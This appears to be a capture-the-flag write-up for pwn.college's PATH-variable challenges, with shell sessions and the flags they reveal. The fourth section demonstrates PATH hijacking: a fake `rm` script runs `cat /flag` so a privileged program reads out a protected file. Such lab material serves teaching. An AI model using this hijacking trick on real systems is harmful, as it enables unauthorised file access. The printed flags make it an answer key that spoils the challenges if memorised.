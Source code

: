 # 1) The path variable

```bash
hacker@path~the-path-variable:~$ PATH=""
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{MaXlolPopd-OXE-JW5tf3JCDaC_.dZzNwUDL4ETN0czW}
```
Cleared the PATH variable so that rm cannot be found.
PATH variable is where all the executables are stored. So, if the rm command is not found, the flag file cannot be removed.

# 2) Setting PATH

```bash
hacker@path~setting-path:~$ PATH=/challenge/more_commands
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{MQd7C1mm5XK8FFhNGCVlfj0iOKf.dVzNyUDL4ETN0czW}
```
Here, we added the /challenge/more_commands directory to PATH to expose the win program to be launched using its bare name. 

# 3) Adding commands

```bash
hacker@path~adding-commands:~$ touch win
hacker@path~adding-commands:~$ PATH="/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/home/hacker"
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{kt4BApwCrhuLz61oeOH4eJm15_d.dZzNyUDL4ETN0czW}
```


# 4) Hijacking commands

```bash
hacker@path~hijacking-commands:~$ echo /usr/bin/cat /flag > rm
hacker@path~hijacking-commands:~$ chmod u+x rm
hacker@path~hijacking-commands:~$ PATH="/home/hacker"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{sanpZYet1GQYrcursgDsp-vy307.ddzNyUDL4ETN0czW}
```
Redirected flag to rm. Used the absolute path of cat because PATH has been reset later.
Made rm executable.
Changed the path to /home/hacker
Called /challenge/run.

